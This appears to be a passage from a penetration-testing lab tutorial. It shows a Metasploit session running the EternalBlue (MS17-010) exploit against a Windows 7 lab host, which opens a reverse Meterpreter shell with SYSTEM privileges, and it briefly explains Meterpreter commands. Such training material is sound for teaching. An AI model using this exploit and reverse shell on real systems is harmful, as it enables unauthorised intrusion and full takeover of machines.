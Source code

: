 Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

The prompt is not a Windows command-line one but a `Meterpreter` prompt. The `whoami` command, typically used for Windows, does not work here. Instead, we can use the Linux equivalent of `getuid`. Exploring the `help` menu gives us further insight into what Meterpreter payloads are capable of.

**MSF - Meterpreter Commands**
